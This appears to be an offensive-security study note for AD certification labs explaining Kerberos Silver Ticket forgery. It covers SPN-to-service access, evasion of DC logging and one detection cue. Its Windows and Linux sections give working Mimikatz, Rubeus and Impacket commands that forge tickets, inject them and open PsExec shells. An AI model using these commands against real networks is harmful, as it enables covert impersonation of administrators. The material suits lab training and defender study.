

---
tags:
  - crtp
  - cape
  - active-directory
  - kerberos
---

# Silver Ticket

Silver Tickets are **forged TGS** that allow attackers to authenticate to specific services without ever interacting with a DC. Unlike [Golden Tickets](golden-ticket.md), Silver Tickets focus on a narrower scope: **service-level access on a specific host**. The attack hinges on the compromise of a service account’s secret (NTLM hash or AES key).

In an AD environment, every computer joined to the domain has a corresponding machine account (for example, `HOSTNAME$`). Like any other account, this machine account has an NTLM hash, which represents the Pre-Shared Key (PSK) between the DC and the computer. This secret is used by the KDC and the service to protect and validate Kerberos service tickets.

In the context of a Silver Ticket attack, the attacker compromises the NTLM hash of a service or computer account. Because this hash is effectively the key used by that service to verify Kerberos tickets, the attacker can forge their own TGS offline without interacting with the DC. The forged ticket is accepted by the target service because it is signed with the correct key.

When a client requests access to a service via Kerberos, the DC issues a TGS encrypted with the service account’s key. However, if an attacker already possesses this key, they can forge a TGS offline by creating an arbitraty Privilege Attribute Certificate (PAC). Since the target service only verifies the TGS using its own key and doesn’t consult the DC, forged TGS can appear entirely legitimate from the service’s perspective.

<figure><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

In practice, this allows attackers to impersonate any user, including privileged ones, when accessing services like SMB (CIFS) and HTTP (WinRM). For instance, compromising a machine account (e.g., `dcorp-dc$`), which often runs various services, can unlock broad access to services hosted on that system. These **machine accounts rotate their passwords every 30 days by default**, limiting the long-term usefulness of the ticket for persistence, but offering a powerful short-term privilege escalation vector.

<table><thead><tr><th width="140.66668701171875">Service (SPN)</th><th>Provides Access To</th></tr></thead><tbody><tr><td><code>HTTP</code></td><td>WinRM (Windows Remote Management)</td></tr><tr><td><code>CIFS</code></td><td>File system (SMB shares)</td></tr><tr><td><code>HOST</code></td><td>Scheduled tasks, remote service control, WMI (partial, combined with <code>RPCSS</code>)</td></tr><tr><td><code>RPCSS</code></td><td>WMI (combined with <code>HOST</code>), DCOM/RPC endpoint mapper</td></tr><tr><td><code>LDAP</code></td><td>DCSync (requires elevated permissions)</td></tr><tr><td><code>TERMSRV</code></td><td>RDP (Remote Desktop Protocol)</td></tr></tbody></table>


`WSMAN` is the protocol the underlies PowerShell Remoting, so **SPNs used by WSMAN are actually of type HTTP**. WSMAN is build on top of HTTP/SOAP over TCP port 5985/5986.


To perform this attack, the attacker typically needs the NTLM hash of the target service or computer account, the domain SID, the SPN of the target service, the hostname of the target system, and the ability to define arbitrary user and group information within the ticket. This allows the attacker to impersonate privileged users and access specific services on the compromised host.

## OPSEC and Persistence

The effectiveness of Silver Ticket attacks is often boosted by the **lack of strict Privilege Attribute Certificate (PAC) validation** on many services. Without PAC validation, services accept forged tickets without verifying user group memberships with the DC. While Microsoft introduced `PAC_REQUESTOR` validation post-October 2022 to mitigate such attacks (especially for non-existent users!) this check is not universally enforced, particularly on non-critical services.

Once injected into memory, the forged ticket allows immediate access to the target service as the specified user. The attack remains **largely undetected by traditional DC-side logging**, as the ticket is never requested from the DC. This OPSEC-safe nature makes it attractive for stealth operations, and many detection platforms, including Microsoft Defender for Identity (MDI), may overlook such activity since **AP-REQ traffic doesn’t always raise flags**.

Similarly to the Golden Ticket, detection may be possible by examining inconsistencies in the ticket’s `domain` field stored in the PAC. Normally, this field contains the NetBIOS domain name (for example, `MARVEL`). If the field is left blank or contains the FQDN, such as `MARVEL.LOCAL`, instead of the NetBIOS name, this may indicate improper ticket crafting. Careful inspection of how the ticket was generated and how the tool populates these fields is therefore essential.

## Windows


**Proper construction of the Service Principal Name (SPN) is critical**: it must conform to Kerberos naming conventions (e.g., `HTTP/web04.corp.com`) rather than URL formats and is case-sensitive in some deployments.



```powershell
# Get the SID of the domain (PowerView)
Get-DomainSID

# Forge a TGS for CIFS\SQL1$ as Administrator (Mimikatz)
.\mimikatz.exe "mimikatz # kerberos::golden /domain:marvel.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.marvel.local /service:cifs  /ptt"

# Forge a TGS for CIFS\SQL1$ as Administrator (Rubeus) (/ldap -> query DC for user info)
.\Rubeus.exe silver /service:http/sql1.marvel.local /rc4:ff955e93a130f5bb1a6565f32b7dc127 /sid:S-1-5-21-2974783224-3764228556-2640795941 /ldap /user:Administrator /domain:marvel.local /ptt

# Access the target
 dir //sql01.marvel.local/c$
```


Instead of injecting the ticket directly into the current logon session, a **sacrificial process** can be created first and the ticket injected into that isolated session. This approach prevents overwriting existing Kerberos tickets and avoids disrupting the authentication context of the current user, machine account, or running services.


```powershell
# Forge a TGS for CIFS/SQL1$ as Administrator
.\mimikatz.exe "kerberos::golden /domain:marvel.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.marvel.local /service:cifs /ticket:sql01.kirbi" exit

# Create a sacrificial process
.\Rubeus.exe createnetonly /program:cmd.exe /show

# Inject the ticket into the new session
Rubeus.exe ptt /ticket:sql01.kirbi

# Access the target
.\PSExec.exe -accepteula \\sql01.marvel.local cmd
```


## Linux


```bash
# Get the SID of the domain
impacket-lookupsid marvel.local/x7331@dc01.marvel.local -domain-sids

# Forge a TGS
impacket-ticketer -nthash ff955e93a130f5bb1a6565f32b7dc127 -domain-sid S-1-5-21-2974783224-3764228556-2640795941 -domain marvel.local -spn cifs/sql01.marvel.local Administrator

# Export the ticket
export KRB5CCNAME=./Administrator.ccache

# Access the target
impacket-smbclient -k -no-pass sql01.marvel.local

# SPN is in clear text and can be modified on the fly!
impacket-psexec -k -no-pass sql01.marvel.local
```


To use the forged ticket, a Kerberos configuration file (`/etc/krb5.conf`) may be required with the appropriate realm and hostname mappings. This is necessary because the authentication attempt is performed from the attacker’s system, which does not have the native Kerberos configuration of the target domain.

When a TGS is generated and stored in a credential cache, tools such as those from Impacket still rely on the local Kerberos libraries to interpret and use the ticket. Without explicit mappings between the domain, realm, and hostnames, the client cannot correctly associate the forged ticket with the intended service or domain.&#x20;

This issue is particularly common when accessing services such as MSSQL through port forwarding, where the service hostname differs from the original Kerberos SPN. Proper configuration ensures that the Kerberos client can resolve the target service and successfully present the ticket for authentication.


```bash
[libdefaults]
        default_realm = DOMAIN.LOCAL
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        NAGOYA-INDUSTRIES.COM = {
                kdc = dc01.domain.local
        }

[domain_realm]
        .domain.local = DOMAIN.LOCAL
```


Then we need to also map the domain locally at `/etc/hosts` and use the ticket.


```bash
$ grep '127.0.0.1' /etc/hosts
127.0.0.1       localhost dc01.domain.local

$ impacket-mssqlclient dc01.domain.local -k
```

